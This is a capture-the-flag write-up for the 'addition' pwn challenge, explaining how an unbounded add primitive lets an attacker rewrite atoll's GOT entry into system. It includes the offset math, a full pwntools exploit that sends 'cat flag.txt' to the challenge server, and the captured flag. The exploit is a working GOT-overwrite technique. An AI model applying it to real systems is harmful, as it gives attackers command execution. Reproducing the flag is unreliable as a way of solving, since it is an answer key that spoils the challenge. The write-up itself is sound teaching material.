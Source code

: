 addition Solution
Category: pwn
Target: nc addition.chal.imaginaryctf.org 1337
Flag: ictf{i_love_finding_offsets_4fd29170cb90}
TL;DR
The program repeatedly asks:
add where?
add what?
and does a 64-bit add at *(buf + where) += what with no bounds check. We can write outside buf and hit the GOT. If we add (system - atoll) to atoll@GOT, the next call to atoll becomes a call to system, with our input string as its argument. Then we send cat flag.txt.
________________________________________
Recon
From reversing (strings/ghidra) the loop is essentially:
while (1) {
  puts("add where?");
  long off = atoll(readline());
  if (off == 1337) break;

  puts("add what?");
  long val = atoll(readline());

  *(long *)((char *)buf + off) += val;   // 64-bit add, no bounds check
}
Key properties:
•	No bounds check → arbitrary 8-byte add into process memory.
•	atoll() is used to parse your inputs each time.
•	PLT/GOT is writable (no RELRO or partial RELRO).
•	The GOT entry for atoll is already resolved when we start interacting, so it holds the real libc address.
________________________________________
Target addresses & math
Using the provided artifacts (vuln, libc.so.6, ld-linux-x86-64.so.2) we get:
1.	libc offsets (exported symbols):
•	system @ 0x0000000000050d60
•	atoll @ 0x0000000000043670
Compute the delta we need to add into the atoll@GOT entry:
•	DELTA = system - atoll = 0x50d60 - 0x43670 = 0x0d6f0 = 55024 (dec)
2.	Binary static addresses (PIE off / fixed region used by the challenge)
•	buf = 0x4069
•	atoll@GOT = 0x4020
Compute the index into the “add where?” pointer space:
•	INDEX = GOT_ATOLL - BUF = 0x4020 - 0x4069 = -0x49 = -73
So the plan is:
1.	Write at offset INDEX = -73.
2.	Add DELTA = 55024 to *(buf + INDEX) → patches atoll@GOT into system.
3.	Next time the binary calls atoll(...), it actually calls system(...) with our input string. Send cat flag.txt.
________________________________________
Exploit (Pwntools)
from pwn import *

HOST, PORT = "addition.chal.imaginaryctf.org", 1337

# Offsets computed from your uploaded libc.so.6
LIBC_SYSTEM = 0x0000000000050d60
LIBC_ATOLL  = 0x0000000000043670
DELTA = LIBC_SYSTEM - LIBC_ATOLL   # 0xd6f0 = 55024

# PIE-relative offsets computed from your binary
BUF      = 0x4069
GOT_ATOLL= 0x4020
INDEX = GOT_ATOLL - BUF            # -73

def solve():
    io = remote(HOST, PORT)
    # 1) point at atoll@GOT
    io.sendlineafter(b"add where?", str(INDEX).encode())
    # 2) add (system - atoll) to GOT entry
    io.sendlineafter(b"add what?", str(DELTA).encode())

    # 3) Now atoll has become system. Next "add where?" calls system(<our string>).
    io.sendlineafter(b"add where?", b"cat flag.txt")
    # The program will try to ask "add what?" again; just read output.
    print(io.recvuntil(b'\n', timeout=2).decode(errors="ignore"))
    print(io.recvrepeat(1).decode(errors="ignore"))
    io.close()

if __name__ == "__main__":
    solve()
Result
ictf{i_love_finding_offsets_4fd29170cb90}
